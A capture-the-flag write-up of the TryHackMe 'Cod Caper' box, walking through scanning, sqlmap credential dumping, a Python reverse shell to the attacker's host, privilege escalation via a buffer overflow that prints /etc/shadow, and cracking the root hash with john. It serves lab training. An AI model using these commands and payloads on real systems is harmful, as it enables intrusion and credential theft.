


# TryHackMe : Cod Caper

## Initial Recon

```
sudo nmap -sC -sV 10.10.20.185 > rec_ini
```


1)  Port 22 ssh is open</br>
2)  port 80 http port is open</br>


The web page is a standard Ubuntu apache2 page.</br>


## Directory Brute Forcing

We are given a word list, `big.txt`. </br>
Use gobuster to bruteforce directory.

```
gobuster dir -u http://10.10.20.185/ -w big.txt -x php,html,txt
```

Use the php, html and txt extensions together.

One directory is found : </br>

```
/administrator.php (Status: 200)
```

## Web Exploitation


As mentioned in the guide, we need to use sqlmap.</br>


There is an admin and password.</br>
Default creds like `admin:admin` doesn't work.

1) We need to use the url for this, since the form option works only with url</br>
2) The `--form` flag is used because, the the parameters are not passed through the url</br>

```
sqlmap -u http://10.10.122.172/administrator.php --forms -dbs
```

This will give us the databases :

```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users
```

 
### Test for user database

```
sqlmap -u http://10.10.122.172/administrator.php --data 'username=&password=' -a
```


This will dump everything from the database

```
sqlmap -u http://10.10.122.172/administrator.php --forms -D users --tables
```

```
Database: users
[1 table]
+-------+
| users |
+-------+
```


This will show the tables in the `users` database.

Dump everything from tge table `users` :

```
sqlmap -u http://10.10.122.172/administrator.php --forms -D users -T users --dump
```

Both username and password will be shown : 

```
+----------+------------+
| username | password   |
+----------+------------+
| pingudad | secretpass |
+----------+------------+
```

So we have the creds :   

```
pingudad : secretpass
```


## Command execution


After logging in to the admin panel we get a command execution panel.


We can run shell commands here like `whoami`

We can check if python is there or not by typing 
```
python -c 'print "akslkajdslkdj"'
```
into the run command panel.

Therefore we can also try to get a bash reverse shell. 

```
rlwrap nc -nlvp 1331
```

Then paste this into the `Run Command` panel.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.84.8",1331));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

We will get a shell back.



```
www-data@ubuntu:/var/www/html$ whoami
whoami
www-data
www-data@ubuntu:/var/www/html$ 
```

We are www-data.

## Finding directories

As mentioned in the guide, we need to find directories which are owned by a particular user.</br>
In the home directory, there are 2 users `papa` , `pingu`.

```
www-data@ubuntu:/var/www/html$ find / -user papa 2>/dev/null
```

This will give us the files owned by `papa`.

```
www-data@ubuntu:/var/www/html$ find / -user papa 2>/dev/null
find / -user papa 2>/dev/null
/opt/secret
/home/papa
/home/papa/.bash_history
/home/papa/.bash_logout
/home/papa/.cache
/home/papa/.profile
/home/papa/.nano
/home/papa/.bashrc
/home/papa/.sudo_as_admin_successful
/home/papa/.pwntools-cache-2.7
/home/papa/.pwntools-cache-2.7/update
/var/backups/shadow.bak
```

Here we see that, `/var/backups/shadpow.bak` is owned by papa.

However, if we check the files in home directory of pigu, we find that the ssh key of pingu is readable by us</br>


We cannot use this one to login, as it asks for password.


In the /var/hidden` directory, there is a file called pass,  which has a password.

```
pinguapingu
```


We can log into the box through ssh using this password.



## Finding SUID files

Now the guide is asking us to look for SUID files. </br>
We can use linpeas for this purpose.

```
scp linpeas.sh pingu@10.10.62.114:/tmp
```

There is file called root in the secret directory.

```
/opt/secret/root
```
## Binary exploitation of the root binary


We can find a 32-bit binary in the /opt/secret directory, called root.</br>
If we run it, it doesn't prompt for anything.</br>

Takes input and exits. We can download it and analyze it locally, but there is pwndbg on the box along with pwntools.


There is a function called shell

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x08048330  _init
0x08048370  setgid@plt
0x08048380  system@plt
0x08048390  __libc_start_main@plt
0x080483a0  setuid@plt
0x080483b0  __isoc99_scanf@plt
0x080483d0  _start
0x08048400  __x86.get_pc_thunk.bx
0x08048410  deregister_tm_clones
0x08048440  register_tm_clones
0x08048480  __do_global_dtors_aux
0x080484a0  frame_dummy
0x080484cb  shell
0x08048504  get_input
0x08048521  main
0x08048550  __libc_csu_init
0x080485b0  __libc_csu_fini
0x080485b4  _fini
```


Use cyclic command to find the offset at which the binary Segfaults.</br>

```
r < <(cyclic 50)
```

The program received a Segfault : 

```
Program received signal SIGSEGV (fault address 0x6161616c)
```

Find the offset using `cyclic -l`.

```
pwndbg> cyclic -l 0x6161616c
44
```
The offset is at 44.

Address of the shell function : `0x080484cb`

```
pingu@ubuntu:/opt/secret$ python -c 'print "a"*44+"\xcb\x84\x04\x08"' | ./root 
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18277:0:99999:7:::
uuidd:*:18277:0:99999:7:::
papa:$1$ORU43el1$tgY7epqx64xDbXvvaSEnu.:18277:0:99999:7:::
Segmentation fault
```
This basically gives us the /etc/shadow file.</br>

## Cracking the root hash 

Now we have the root hash, we can use hashcat to crack it.

```
root:$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.:18277:0:99999:7:::
```

I used john to crack the password : 

```
john -w=/usr/share/wordlists/rockyou.txt hash
```

The password for root is : 

```
love2fish
```
